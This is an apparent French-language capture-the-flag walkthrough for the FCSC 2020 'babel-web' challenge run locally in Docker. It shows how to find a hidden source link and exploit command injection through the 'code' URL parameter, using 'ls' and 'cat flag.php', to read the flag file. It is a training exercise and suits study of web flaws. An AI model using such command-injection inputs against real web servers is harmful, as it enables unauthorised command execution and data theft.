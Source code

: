 # ETAPE 1:
Pour commencer
Téléchargez le fichier docker-compose.yml :
curl https://hackropole.fr/challenges/fcsc2020-web-babel-web/docker-compose.public.yml -o docker-compose.yml
# ETAPE 2:
Lancez l'épreuve en exécutant dans le même dossier :
docker compose up
# ETAPE 3:
Accéder à l'épreuve à l'adresse http://localhost:8000/.
# ETAPE 4:
  Nous pouvons avoir un peu plus d'information avec extention wappalyzer
  OS:DEBIAN
  WEB: Apache 2.4.54
  PHP: 7.4.33
  
  Le premier constat est que le site n'est pas sécurisé (HTTPS)
  
  Avec le mode debugeur de EDGE (F12), nous avons une section en commentaire
    "<!-- <a href="?source=1">source</a> -->"
  Il faut decommenter cette section : <a href="?source=1">source</a>
  Reactualisez la page, nous avons maintenant un lien source qui est apparu
  
  Acceder sur le site http://localhost:8000/?code=ls
    la cmd ls permet de lister les fichiers sous linux via la variable code
  le resultat est deux fichiers qui s'affichent dans votre navigateur 
    flag.php
    index.php
  Acceder mainteant http://localhost:8000/?code=cat%20flag.php
    la cmd cat permet afficher le contenu et  la chaine de caractères %20 pour remplacer l’espace dans l’url
  Nous pouvons recuperer le $flad dans le debugeur du navigateur
